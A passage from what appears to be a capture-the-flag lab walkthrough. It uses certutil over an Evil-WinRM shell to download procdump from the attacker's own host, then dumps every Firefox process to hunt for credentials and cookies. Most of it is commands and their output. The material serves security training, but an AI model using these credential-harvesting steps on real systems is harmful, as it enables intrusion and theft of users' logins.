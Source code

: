 Since firefox is running we can try dumping the process and looking for interesting strings (ie. user credentials, paths, cookies, etc). To do this, we need to download procdump (https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from windows sysinternals and put it on the server.

We can use a python web server to download procdump from our host using certutil:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> certutil -urlcache -split -f http://10.10.14.23:8888/procdump64.exe
****  Online  ****
  000000  ...
  061f88
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2021   4:56 PM         401288 procdump64.exe
```
_Note: Its also possible to use evil-winrm to upload a file, however I'm using docker and haven't mapped a volume so decided to use certutil instead._

Using a quick powershell script, we can dump all firefox processes:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-process | where-object { $_.ProcessName -match "firefox" } | foreach-object { ./procdump64.exe -ma $_.Id -accepteula }

ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:46] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170146.dmp
[17:01:46] Dump 1 writing: Estimated dump file size is 309 MB.
[17:01:48] Dump 1 complete: 309 MB written in 2.6 seconds
[17:01:48] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:48] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170148.dmp
[17:01:49] Dump 1 writing: Estimated dump file size is 298 MB.
[17:01:49] Dump 1 complete: 298 MB written in 0.8 seconds
[17:01:50] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:50] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170150.dmp
[17:01:50] Dump 1 writing: Estimated dump file size is 473 MB.
[17:01:54] Dump 1 complete: 473 MB written in 4.0 seconds
[17:01:54] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:54] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170154.dmp
```